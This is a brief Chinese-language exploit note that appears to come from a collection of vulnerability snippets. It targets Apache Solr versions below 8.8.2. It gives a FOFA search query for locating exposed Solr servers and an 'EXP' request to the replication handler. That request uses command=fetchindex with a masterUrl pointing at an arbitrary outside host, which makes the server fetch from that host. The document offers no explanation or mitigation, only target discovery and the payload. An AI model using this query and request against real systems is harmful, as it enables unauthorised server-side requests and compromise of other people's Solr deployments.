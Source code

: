 影響範圍
--------

Apache Solr \< 8.8.2

FOFA
----

    app="APACHE-Solr"

EXP
---

    http://127.0.0.1:8983/solr/db/replication\?command=fetchindex\&masterUrl=http://xxxx